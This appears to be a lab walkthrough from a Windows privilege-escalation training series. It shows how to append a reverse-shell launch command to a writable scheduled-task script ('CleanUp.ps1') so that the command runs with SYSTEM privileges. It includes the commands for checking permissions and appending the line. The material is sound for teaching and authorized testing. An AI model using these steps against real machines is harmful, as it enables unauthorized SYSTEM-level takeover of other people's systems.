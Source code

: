 # 🐾 13. Task Scheduler

## 📜 Task Description
In this task, we will work with the Windows Task Scheduler. The script `C:\DevTools\CleanUp.ps1` runs every minute with SYSTEM privileges. We will modify its contents to add a command to launch a reverse shell with SYSTEM privileges.

---

## 🔍 Step 1: View the contents of the CleanUp.ps1 script
First, let's view the contents of the `C:\DevTools\CleanUp.ps1` script:

'`type C:\DevTools\CleanUp.ps1`'

### 📋 Expected Output
- Ensure that you can see the contents of the `CleanUp.ps1` script, which will be executed under the SYSTEM account every minute.
![image](https://github.com/user-attachments/assets/819d7e77-f3ae-46fd-8185-c891e2e845e3)

---

## 🔑 Step 2: Check write permissions to the file
Using the `accesschk.exe` tool, check if you have write permissions to the `CleanUp.ps1` file:

'`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`'

### 📋 Expected Output
- Ensure that you have write permissions to the file, which will allow you to modify its contents.
![image](https://github.com/user-attachments/assets/3e753ba5-e481-41b8-8046-fe5d11402141)

---

## 📝 Step 3: Add the reverse shell command
Now, while running a listener on Kali, add a line to the `C:\DevTools\CleanUp.ps1` file to launch your executable `reverse.exe` with SYSTEM privileges:

'`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`'

### 📋 Expected Output
- Ensure that the line with the reverse shell launch command was successfully added to the file.

---

## 🎯 Step 4: Wait for the task to run
Wait for the task scheduler to execute the task, which should lead to the reverse shell being launched with SYSTEM privileges.

### 📋 Expected Output
- Ensure that the reverse shell was successfully launched and you gained access to the machine with SYSTEM privileges.
![image](https://github.com/user-attachments/assets/f9264158-596b-4c1f-8f1d-d39706dee970)

---

## 🎉 Congratulations!
You have successfully modified the task scheduler and gained SYSTEM-level access to the machine through a reverse shell! 🎊

---

## 📌 Notes
- Be careful when using the knowledge gained, always act within the boundaries of authorized penetration testing.
